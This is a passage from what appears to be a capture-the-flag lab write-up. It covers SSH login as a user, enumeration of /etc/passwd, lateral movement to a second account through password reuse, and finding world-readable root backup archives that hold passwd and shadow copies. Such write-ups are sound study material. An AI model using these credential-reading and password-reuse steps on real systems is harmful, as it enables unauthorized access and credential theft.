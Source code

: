 Successfully connected over SSH as Triss.

```
ssh -i dusk triss@10.10.78.166
triss@ip-10-10-200-238:~$ whoami
triss

triss@ip-10-10-200-238:~$ hostname
ip-10-10-200-238
```

# Lateral Movement 1

We aren’t alone in the box.

```
triss@ip-10-10-200-238:~$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
sa:x:1001:1001:,,,:/home/sa:/bin/bash
httpd:x:1002:1002:,,,:/home/httpd:/bin/bash
triss:x:1003:1003:,,,:/home/triss:/bin/bash
jennifer:x:1004:1004:,,,:/home/jennifer:/bin/bash
```

Successfully moved laterally to Jennifer by abusing password reuse, and read the user flag.

```
triss@ip-10-10-200-238:/home$ su - jennifer
jennifer@ip-10-10-200-238:~$ ls
user.txt

jennifer@ip-10-10-200-238:~$ cat user.txt
VL{<REDACTED>}
```

# Lateral Movement 2

The /backup directory contains zip files that are generated every 2 minutes. The files are owned by root but readable to all users.

```
jennifer@ip-10-10-200-238:/$ ls /backup -lah
total 552K
drwxr-xr-x  2 root root 4.0K May 15 14:16 .
drwxr-xr-x 20 root root 4.0K May 15 12:00 ..
-rw-r--r--  1 root root 5.8K May 15 12:02 1715774522.zip
-rw-r--r--  1 root root 5.8K May 15 12:04 1715774641.zip
-rw-r--r--  1 root root 5.8K May 15 12:06 1715774761.zip
-rw-r--r--  1 root root 5.8K May 15 12:08 1715774881.zip
...
```

Decompressed it to discover a copy of passwd and shadow. 

